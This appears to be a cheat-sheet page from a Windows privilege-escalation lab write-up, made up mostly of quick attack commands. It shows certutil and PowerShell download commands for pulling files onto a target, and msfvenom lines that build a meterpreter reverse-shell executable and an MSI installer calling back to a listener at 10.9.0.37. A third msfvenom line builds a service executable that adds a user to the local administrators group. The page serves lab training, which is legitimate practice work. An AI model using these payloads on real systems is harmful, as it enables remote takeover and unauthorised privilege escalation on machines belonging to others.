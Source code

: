 ![image](/assets/images/windowsprivescarena/20220426035018.png)

## Quick commands

`Download files from your http server to windows :`

```cmd
certutil -urlcache -f <url> <outfile_name>
Invoke-WebRequest -Uri <url> -OutFile <outfile_name>
```

- Remember if you are going to use ftp server , in case moving exe files to use `binary on`

`Generate payloads :`

```bash
# exe payload to get reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.0.37 LPORT=1337 -f exe -o  common.exe
# exe payload to execute commands
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
# msi payload (for AlwaysInstallElevated)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.0.37 LPORT=7878 -f msi -o setup.msi
```
